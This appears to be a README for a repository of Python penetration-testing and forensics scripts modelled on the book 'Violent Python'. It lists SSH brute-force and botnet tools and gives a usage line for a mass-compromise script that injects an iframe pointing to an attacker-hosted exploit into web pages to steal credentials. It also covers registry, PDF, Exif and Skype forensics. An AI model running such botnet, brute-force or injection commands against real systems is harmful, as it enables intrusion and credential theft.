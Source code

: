 # Digital-Forensic-Analytics  
Forensic Investigation, Network Traffic Analysis, Penetration Testing, Antivirus Evasion, Web recon


These codes are almost similar to book: "Violent Python: A Cookbook for Hackers, Forensic Analysts, Penetration Testers and Security Engineers" book by TJ. O’Connor.  

## Operating System  
  
I Use virtualbox to setup a Ubuntu 18.04 LTS linux box to run these on  
The actual i have is Kali Linux 64 Bit 2018.2  
Window7 for few scripts  
  
Where possible i display all he codes with result Jupyter notebook (#FileFormat .ipynb)  
  
# Penetration Testing  
## PortScan.py  
### Building a port scanner
In the command Line pass the port argument as a string i.e in " " for multiple port like follow;  
taymour:∼# python portScan.py -H 10.50.60.125 -p "21, 1720"  
  
## Nmap_Port_Scanner.py
### Nmap Port Scanner
Scan the ports on the provided hosts.

## D) SSH_Botnet.py
### BUILDING AN SSH BOTNET WITH PYTHON
Issue commands on ssh hosts at once provided you have the user names and passwords.

## E) sshBrute.py
### Brute Forcing SSH Passwords with Pxssh
Brute forces a host's ssh server with a provided worldlist

## H) botNet.py
### Constructing the SSH Botnet
Change IP, Root, Password to issue SSH commands on compromised machines.

## I) anonLogin.py
### 
First you have to allow /etc/vsftpd.conf file to enable anon_login to yes or uncomment it  

## L) massCompromise.py  
### MASS COMPROMISE BY BRIDGING FTP AND WEB
In command line following options are required to attack web pages and inject your own html file to steal compromised user credentials in default location  
Usage from terminal      
taymour# python massCompromise.py -H 192.168.95.179 -r '<iframe src="  
http://10.10.10.112:8080/exploit"></iframe>' -f userpass.txt  

# Forensic Investigations with Python
## M) discoverNetworks.py 
### ANALYSIS OF WIRELESS ACCESS POINTS IN THE REGISTRY, Using Mechanize to Submit the MAC Address to Wigle
Allow to analyse connected wifi through mac adress by reading windows registry  
Usage from command prompt    
(py27) C:\Users\Taymour> python discoverNetworks.py -u <username> -p <password>  
  
## N) dumpRecycleBin.py  
### RECOVER DELETED ITEMS IN THE RECYCLE BIN
Allows to discover deleted items in windows operating system ,also provide information about the user who delete files


## O) PdfRead.py
### Using PyPDF to Parse PDF Metadata
Usage#  
taymour:!# python pdfRead.py -F Violent_Python.pdf  
provide metadata and information about pdf like creation date, user, title, creator, producer etc.  


## P) exifFetch.py
### Reading Exif Metadata from Images
build a script to connect to a Website, download all the images on the site, and then check them for Exif metadata.  
#Usage in CMD   
  
python exifFetch.py -u http://www.flickr.com/photos/dvids/4999001925/sizes/o  


## Q) skype-parse.py  
### INVESTIGATING SKYPE APPLICATION ARTIFACTS
  
List out variety of contents of skype in python console about skype user history name, tags, location, text messages etc  
Usage#  
python skype-parse.py -p C:\AppData\Roaming\Microsoft\Skype_for_Desktop\skylib\taymourniazi  
  
## R) .py  
###
